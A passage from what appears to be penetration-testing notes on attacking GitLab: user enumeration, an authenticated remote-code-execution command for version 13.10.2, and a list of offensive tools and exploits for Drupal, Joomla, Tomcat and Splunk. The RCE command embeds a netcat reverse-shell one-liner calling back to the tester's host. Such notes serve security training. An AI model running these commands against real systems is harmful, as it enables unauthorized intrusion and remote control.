 There's not much we can do against GitLab without knowing the version number or being logged in. The first thing we should try is browsing to `/explore`{: .filepath} and see if there are any public projects that may contain something interesting.

### User Enumeration 

Though not considered a vulnerability by GitLab it is still something worth checking. We can do it with this [script](https://www.exploit-db.com/exploits/49821). GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes, there is no way changing this. 
```console
zero@pio$ ./gitlab_userenum.sh --url http://<TARGET>/ --userlist <WORDLIST>
```

### Authenticated RCE 

We can use this [script](https://www.exploit-db.com/exploits/49951) to perform a RCE in 13.10.2 version. 
```console
zero@pio$ python3 gitlab_13_10_2_rce.py -t http://<TARGET> -u <USER> -p <PASSWORD> -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <OUR IP> 8443 >/tmp/f '
```

---

# Resources 

| **Link**   | **Description**    |
|--------------- | --------------- |
| **General** |
| [droopescan](https://github.com/SamJoan/droopescan) | A plugin-based scanner that aids security researchers in identifying issues with several CMSs, mainly Drupal & Silverstripe |
| [EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness) | is designed to take screenshots of websites, provide some server header info, and identify default credentials if possible |
| [Aquatone](https://github.com/michenriksen/aquatone) | A Tool for Domain Flyovers |
| [DeHashed](https://dehashed.com/) | is a hacked-database search-engine |
| [dehashed.py](https://github.com/sm00v/Dehashed) | DeHashed tool |
| **WordPress** |
| [WPScan](https://github.com/wpscanteam/wpscan) | test the security of their WordPress websites |
| **Joomla** |
| [JoomlaScan](https://github.com/drego85/JoomlaScan) | A free software to find the components installed in Joomla CMS |
| [JoomScan](https://github.com/OWASP/joomscan) | OWASP Joomla Vulnerability Scanner Project |
| [joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce) | Joomla login bruteforce |
| **Drupal** |
| [Drupalgeddon](https://www.exploit-db.com/exploits/34992) | Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User) |
| [Drupalgeddon2](https://www.exploit-db.com/exploits/44448) | Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution |
| [Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3) | Drupal < 7.58 - Drupalgeddon 3 Authenticated Remote Code Execution |
| **Tomcat** |
| [Tomcat Manager Bruteforce](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) | This script will bruteforce the credential of tomcat manager or host-manager |
| **Splunk** |
| [reverse\_shell\_splunk](https://github.com/0xjpuff/reverse_shell_splunk) | A simple splunk package for obtaining reverse shells on both Windows and most \*nix systems |
| **GitLab** |